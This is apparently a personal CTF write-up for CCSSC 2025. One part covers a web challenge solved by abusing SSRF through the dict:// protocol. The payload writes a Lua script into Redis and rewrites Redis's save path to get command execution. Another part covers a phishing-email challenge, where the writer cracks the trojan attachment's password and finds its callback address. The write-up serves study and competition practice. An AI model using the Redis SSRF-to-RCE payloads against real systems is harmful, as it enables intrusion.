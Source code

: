 ```yaml
---
title: "CCSSSC2025"
date: 2025-01-05
draft: false
description: "CCSSC 2025"
summary: "CCSSC 2025 Personal WriteUP"
tags: ["writeup", "ctf"]
categories: ["writeup"]
---
```


{{< alert >}}
**WARNING！** This is a machine translated version of the [Chinese page](/posts/ccsssc2025/)
{{< /alert >}}

## WEB

### CachedVisitor

[Attachment](/posts/ccsssc2025/attachments/fishingemail_25da885af63965bf249067b64099c319attachment_20250102090654845.zip)

Some useful tests:

![Proof of Internet Access](/posts/ccsssc2025/img/CachedVisitor-1.png)

![Proof of Any File Reading](/posts/ccsssc2025/img/CachedVisitor-2.png)

![Proof of dict protocol availability](/posts/ccsssc2025/img/CachedVisitor-3.png)

Container is connected to the network and can read files. The dict protocol is available and redis can be accessed

Analyzed the source code

```main.lua ```Read the contents between ```##LUA_START##``` and ```##LUA_END##``` from ```visit.script``` and run it as a script

```dockerfile
COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag
```

The flag has permissions set and cannot be read directly.

Try to use redis to write visit.script to perform RCE

Write lua and test in local docker to output flag

```lua
##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##
```

Use redis to write lua to visit.script directly

```
dict://127.0.0.1:6379/set:payload:"##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##"
dict://127.0.0.1:6379/config:set:dir:/scripts/
dict://127.0.0.1:6379/config:set:dbfilename:visit.script
dict://127.0.0.1:6379/bgsave
```

After writing, you can execute what we wrote by sending a request at will Script

> ```dart{dc2e4048-dca7-4fa3-9803-8ee9d785af2b}```

## Misc

### Fishing E-mail

> Bob received a phishing email. Please find the return address and port of the Trojan.If the backlink address and port are 123.213.123.123:1234, then the sensitive information is MD5 (123.213.123.123:1234), that is, d9bdd0390849615555d1f75fa854b14f, which is based on the result of Cyberchef.

[Attachment](/posts/ccsssc2025/attachments/CachedVisitor.zip)

```yaml
Content-Transfer-Encoding: base64
```

Found that the encoding format is Base64, we directly decode to view the content

```
Today is your 24th birthday, wish you Happy birthday to you

<div class="qmbox"><p style="font-family: -apple-system, BlinkMacSystemFont, &quot;PingFang SC&quot;, &quot;Microsoft YaHei&quot;, sans-serif; font-size: 10.5pt; color: rgb(46, 48, 51);">Today is your 24th birthday, wish you Happy birthday to you</p><div xmail-signature=""><xm-signature></xm-signature><p></p></div></div>

Birthday gift.zip(BIN)
```

I used CyberChef to extract the zip file and found that there was a password

```
Date: Mon, 11 Nov 2024 12:54:24 +0800
```

Based on birthday, guess the password ```20001111```

Successfully decompressed to get exe

After running in the virtual machine, capture the packet to get the reverse connection address!

![Capture result](/posts/ccsssc2025/img/Fishing_E-mail.png)

> MD5(222.218.218.218:55555)
>
> df3101212c55ea8c417ad799cfc6b509
